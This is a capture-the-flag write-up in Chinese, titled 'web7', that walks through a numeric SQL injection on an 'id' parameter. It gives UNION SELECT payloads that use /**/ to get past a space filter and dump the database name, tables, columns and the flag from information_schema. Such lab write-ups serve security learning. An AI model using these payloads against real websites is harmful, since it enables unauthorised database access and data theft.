







# web7

+ 由链接，可看到由<code>id</code>传值

+ 先试下使恒成立

~~~ shell
?id=1/**/and/**/1
~~~

+ 再试下使恒不成立

~~~ shell
?id=1/**/and/**/0
~~~

由此可以判断页面存在SQL注入,注入点为**数值型注入**

+ 页面中有显示位,可以尝试**联合注入**进行脱库，首先判断显示位

~~~ shell
?id=-1/**/union/**/select/**/1,2,3
~~~

+ 爆数据库名

~~~ shell
?id=-1/**/union/**/select/**/1,database(),3
~~~

+ 爆数据表

~~~ shell
?id=-1/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema="web7"),3
~~~

+ 爆数据列

~~~ shell
?id=-1/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema="web7"/**/and/**/table_name="flag"),3
~~~

+ 爆数据

~~~ shell
?id=-1/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3
~~~

